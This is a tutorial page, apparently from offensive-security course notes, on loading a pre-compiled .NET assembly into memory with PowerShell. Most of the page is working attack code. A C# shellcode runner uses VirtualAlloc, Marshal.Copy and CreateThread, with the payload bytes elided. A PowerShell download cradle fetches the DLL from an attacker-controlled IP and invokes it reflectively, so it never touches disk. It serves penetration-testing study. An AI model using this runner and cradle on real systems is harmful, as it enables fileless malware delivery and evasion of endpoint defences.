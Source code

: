 ## The Need
No such need to learn this to be honest, we're just learning how we can combine the power of pre-compiled assemblies and load it directly into memory using powershell.

We will be separating these steps, to first, fetch the pre-compiled assembly and then, load it directly into memory.

## Begin
We can begin by simply copying the contents our previous [2. DotNet To JS](../02.%20JScript%20to%20C/2.%20DotNet%20To%20JS.md) code to our current session as follows:
1. DLLImport goes under the _Class1_ class
2. We will be copying the heart of our shellcode, in a new _runner_ method

The code will look as follows:
```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
     uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
          IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void runner()
        {
            byte[] buf = new byte[641] {
            0xfc,0x48,.........,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

Compiling the above code, and placing it in the web root of our attacker machine, our first step is complete.

We can now start to build our powershell script which will load the dll into memory we can interact with it using the _GetType_ and _GetMethod_ methods, and finally call it through the _Invoke_ method.

Our script will look something like so:
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```